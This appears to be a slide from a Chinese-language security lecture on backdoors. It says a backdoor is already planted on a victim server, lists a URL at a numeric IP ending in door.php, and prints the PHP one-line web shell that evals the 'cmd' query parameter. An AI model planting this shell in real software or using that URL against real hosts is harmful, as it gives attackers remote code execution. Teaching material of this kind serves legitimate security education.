

# 後門 (Backdoor)
受害者伺服器(Victim Server)
後門已經先植入好了
http://35.201.159.86/door.php

傳說中的一句話後門
<?php echo eval($_GET[‘cmd’]); ?>